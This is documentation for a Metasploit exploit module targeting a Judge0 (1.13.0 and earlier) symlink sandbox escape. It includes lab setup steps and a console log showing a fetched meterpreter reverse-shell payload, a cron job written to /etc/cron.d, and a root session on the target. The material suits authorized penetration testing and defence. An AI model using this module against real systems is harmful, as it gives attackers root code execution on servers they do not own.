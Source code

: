 ## Vulnerable Application

Judge0 does not account for symlinks placed inside the sandbox directory,
which can be leveraged by an attacker to write to arbitrary files and gain code execution outside of the sandbox.

The vulnerability affects:

    * Judge0 <= 1.13.0

This module was successfully tested on:

    * Judge0(v1.13.0) installed with Docker on Ubuntu 20.0.4


### Installation

1. (Optional) Set cgroup to v1
```bash
  sudo nano /etc/default/grub
  # add this line at the top, and save:
  GRUB_CMDLINE_LINUX="systemd.unified_cgroup_hierarchy=0"
  sudo update-grub
  sudo reboot
```

2. Install Judge0
```bash
  wget https://github.com/judge0/judge0/releases/download/v1.13.0/judge0-v1.13.0.zip
  unzip judge0-v1.13.0.zip
  cd judge0-v1.13.0
```

3. Start Judge0
```bash
  docker compose up
```

4. (Optional) When Judge0 does not work, try this
```bash
  docker compose up --force-recreate server
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/judge0_sandbox_escape_cve_2024_28189`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf > use exploit/linux/http/judge0_sandbox_escape_cve_2024_28189
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/http/judge0_sandbox_escape_cve_2024_28189) > options

Module options (exploit/linux/http/judge0_sandbox_escape_cve_2024_28189):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    2358             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JRzyWcrcJ        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/judge0_sandbox_escape_cve_2024_28189) > run lhost=192.168.56.1 rhost=192.168.56.15

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version 1.13.0 detected, which is vulnerable
[+] The target appears to be vulnerable.
[*] Writing cron job to /etc/cron.d/dUTuziNy
[*] Use language: 77, COBOL (GnuCOBOL 2.2)
[+] Deleted /etc/cron.d/dUTuziNy
[+] Deleted /root/SVENuNNy
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.15:49024) at 2024-10-29 12:56:04 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.18.0.5
OS           : Debian 10.2 (Linux 5.4.0-196-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/root
meterpreter > 
```
